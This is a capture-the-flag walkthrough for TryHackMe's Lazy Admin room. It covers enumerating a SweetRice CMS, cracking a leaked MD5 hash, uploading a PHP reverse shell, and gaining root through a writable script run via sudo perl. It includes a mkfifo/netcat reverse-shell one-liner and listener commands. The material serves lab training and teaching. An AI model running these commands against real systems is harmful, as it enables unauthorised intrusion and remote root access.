


## Summary

**Lazy Admin** is the sixth machine in the _Road to eJPTv2_ series and the most elaborate so far in terms of attack chain. There's no single vector — you have to chain: two-layer fuzzing to find the CMS, credential extraction from an exposed MySQL backup, MD5 hash cracking, admin panel access, reverse shell upload, and an indirect privilege escalation via sudo Perl that modifies an intermediate script.

| Attribute      | Value                                                                       |
| -------------- | --------------------------------------------------------------------------- |
| **Platform**   | TryHackMe                                                                   |
| **Difficulty** | Easy                                                                        |
| **OS**         | Linux                                                                       |
| **Room**       | [Lazy Admin](https://tryhackme.com/room/lazyadmin)                          |
| **Skills**     | Web Enum, CMS Exploitation, Hash Cracking, File Upload, Sudo Privesc (Perl) |

### 🎥 Video version



> If you prefer to follow the walkthrough step by step, keep reading. The video covers the same process in visual format.

### Tools used

- `nmap` — port and service enumeration
- `gobuster` — two-layer directory fuzzing
- `wget` — MySQL backup download
- `john` — MD5 hash cracking
- `netcat` — reverse shell listener

### Solution overview

1. Nmap reveals SSH (22) and HTTP (80) with Apache 2.4.18
2. Gobuster discovers `/content/` — SweetRice CMS version 1.5.1
3. Second fuzzing on `/content/` discovers `/content/inc/` with exposed MySQL backup
4. Backup contains user `manager` and MD5 hash: `42f749ade7f9e195bf475f37a44cafcb`
5. John cracks the hash → `Password123`
6. Access to SweetRice admin panel at `/content/as/`
7. PHP5 reverse shell upload via Media Center → shell as `www-data`
8. `sudo -l` reveals `www-data` can run `/usr/bin/perl /home/itguy/backup.pl`
9. `backup.pl` runs `/etc/copy.sh` — we modify `copy.sh` with mkfifo reverse shell
10. Run script with sudo → root

---

## Reconnaissance

### Connectivity check

```bash
ping -c 1 10.66.153.42
64 bytes from 10.66.153.42: icmp_seq=1 ttl=62 time=68.1 ms
```

> **TTL=62** → target is **Linux**. Same as Bounty Hacker, TTL of 62 indicates one or two network hops between attacker and target.

### Nmap port scan

Initial sweep of all TCP ports:

```bash
nmap 10.66.153.42 -n -Pn -sS -p- --open --min-rate=5000 -oG allTCPports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Only two ports. The entire attack goes through the web.

Targeted scan with version detection and scripts:

```bash
nmap 10.66.153.42 -n -Pn -sS -sCV -p22,80 --min-rate=5000 -oN escaneoLazy.txt
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
80/tcp open  http    Apache httpd 2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

> **Key findings:**
>
> - **Port 80:** Apache 2.4.18 showing Ubuntu's default page. Hidden content waiting to be discovered with fuzzing.
> - **Port 22:** SSH active — possible vector if we obtain valid credentials.

---

## Web Enumeration

### First fuzzing layer

```bash
gobuster dir -u http://10.66.153.42 \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,html,txt,bak,xml
  /index.html   (Status: 200)
  /content      (Status: 301)
```

> **Finding:** `/content/` directory containing **SweetRice CMS version 1.5.1**. This gives us a concrete target: search for known vulnerabilities in that specific version.

### Second fuzzing layer on `/content/`

The first fuzzing only scratched the surface. We fuzz recursively inside `/content/`:

```bash
gobuster dir -u http://10.66.153.42/content \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x html,php,css,xml,bak
    /index.php    (Status: 200)
    /images       (Status: 301)
    /js           (Status: 301)
    /inc          (Status: 301)
    /as           (Status: 301)
    /_themes      (Status: 301)
    /attachment   (Status: 301)
```

> **Two critical findings:**
>
> - `/content/as/` → SweetRice administration panel
> - `/content/inc/` → directory with exposed internal CMS files

### Exploring `/inc/`

We access `http://10.66.153.42/content/inc/` and find the directory with indexing enabled:



Inside we find the `mysql_backup/` subdirectory with a complete database backup. An exposed database backup on a web server is a critical vulnerability — it can contain credentials, user data, and system configuration.

```bash
wget http://10.66.153.42/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql
```

### Credential extraction from backup

We search for passwords inside the downloaded file:

```bash
cat mysql_bakup_20191129023059-1.5.1.sql | grep passwd
s:6:"passwd";s:32:"42f749ade7f9e195bf475f37a44cafcb"
```

> **Credentials found:**
>
> - **Username:** `manager`
> - **MD5 hash:** `42f749ade7f9e195bf475f37a44cafcb`

### Hash cracking with John

We save the hash to a file and run John with rockyou:

```bash
echo "42f749ade7f9e195bf475f37a44cafcb" > manager.hash
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt manager.hash
Password123      (?)
```

> **Full credentials:** `manager:Password123`

---

## Exploitation

### Admin panel access

With the cracked credentials we access the SweetRice panel:

```
http://10.66.153.42/content/as/
```



Credentials `manager:Password123` work. We get full access to the CMS dashboard:


### Reverse Shell via Media Center

SweetRice allows file uploads from the **Media Center** section. We upload a PHP5 reverse shell (`.php5` or `.phtml` to bypass possible filters).

We set up a listener:

```bash
nc -nlvp 4545
```

We upload the reverse shell from Media Center and navigate to the uploaded file URL. We receive the connection:

```bash
connect to [192.168.149.0] from (UNKNOWN) [10.66.153.42] 45420
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Shell stabilization

This machine has Python3 available — we use the full stabilization method:

```bash
which python3
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 40 cols 184
```

> **Why is this method better than just `export SHELL=bash`?** `pty.spawn` creates a full pseudo-terminal, enabling Tab autocomplete, command history, and editors like `nano` or `vi`. It's the most complete stabilization available without additional tools.

---

## Post-exploitation

### User enumeration

```bash
cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
itguy:x:1000:1000:THM-Chal:/home/itguy:/bin/bash
```

System user: `itguy`.

### User flag

```bash
cd /home/itguy
cat user.txt
```

> **User flag:** `THM{63e5bce9271952aad1113b6f1ac28a07}`

### Interesting files in itguy's home

```bash
ls -l /home/itguy
-rw-r--r-x 1 root  root    47 Nov 29  2019 backup.pl
-rw-rw-r-- 1 itguy itguy   16 Nov 29  2019 mysql_login.txt
```

We review `backup.pl`:

```bash
cat backup.pl
```

```perl
#!/usr/bin/perl
system("sh", "/etc/copy.sh");
```

> **Key finding:** `backup.pl` is a Perl script owned by root that executes `/etc/copy.sh`. If we can run `backup.pl` with sudo AND modify `copy.sh`, we have indirect escalation.

### Sudo enumeration

```bash
sudo -l
User www-data may run the following commands on THM-Chal:
(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

> **Attack plan confirmed:** `www-data` can run `backup.pl` as root. `backup.pl` runs `/etc/copy.sh`. If `/etc/copy.sh` is writable by `www-data`, we can inject a reverse shell there and execute it as root via `sudo perl backup.pl`.

We verify `/etc/copy.sh` permissions:

```bash
ls -l /etc/copy.sh
-rw-r--rwx 1 www-data www-data 81 Nov 29  2019 /etc/copy.sh
```

`/etc/copy.sh` has world-writable permissions (`rwx`) — **`www-data` can write to it**. The chain is complete.

---

## Privilege Escalation

### Escalation chain: sudo → Perl → Shell script

The escalation works in two steps:

1. Modify `/etc/copy.sh` to execute a reverse shell
2. Run `backup.pl` with sudo — which will call the modified `copy.sh` as root

### Step 1: Modify `/etc/copy.sh`

We set up a listener on a new terminal:

```bash
nc -nlvp 5555
```

We replace `copy.sh` content with an mkfifo reverse shell:

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.149.0 5555 >/tmp/f" > /etc/copy.sh
```

### Step 2: Run backup.pl with sudo

```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```

On our listening terminal we receive the connection as root:

```bash
# whoami
root
```

### Root flag

```bash
cd /root
cat root.txt
```

> **Root flag:** `THM{6637f41d0177b6f37cb20d775124699f}`

---

## Lessons learned

- **Single-layer fuzzing may not be enough** — The first gobuster found `/content/`. Without the second fuzzing inside `/content/`, we would never have found `/content/inc/` with the MySQL backup. On complex applications, always fuzz recursively on the most interesting directories.
- **Database backups should never be in the webroot** — A publicly accessible `.sql` file can contain credentials, user data, and critical system configuration. In a real pentest, this is a critical finding that gets reported immediately.
- **Indirect escalation requires understanding the full chain** — Here it wasn't `sudo binary → shell` directly. It was `sudo perl → perl script → shell script → shell`. Seeing the complete chain before executing is fundamental.
- **Intermediate file permissions matter as much as direct ones** — `backup.pl` was owned by root and unmodifiable. But `copy.sh` had world permissions (`rwx`). Security of the chain is only as strong as its weakest link.
- **`pty.spawn` vs `export SHELL=bash`** — When Python3 is available, always use full stabilization with `pty.spawn`. It gives you a functional shell with all terminal controls. Without this, commands like `sudo -l` can behave erratically.

### For the eJPT

This machine exercises skills directly evaluated on the eJPT:

- Multi-layer web enumeration with Gobuster
- CMS identification and exploitation
- Credential extraction from exposed files
- MD5 hash cracking with John the Ripper
- Reverse shell upload via web admin panels
- Indirect privilege escalation via sudo + chained scripts
- File permission analysis to identify write vectors

**Approximate solving time:** 45-60 minutes — most of the time in two-layer fuzzing and understanding the escalation chain.

---

## References

- [Lazy Admin — TryHackMe](https://tryhackme.com/room/lazyadmin)
- [GTFOBins — perl](https://gtfobins.github.io/gtfobins/perl/)
- [SweetRice CMS](http://www.basic-cms.org/)
- [John the Ripper documentation](https://www.openwall.com/john/)
- [PayloadsAllTheThings — Reverse Shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
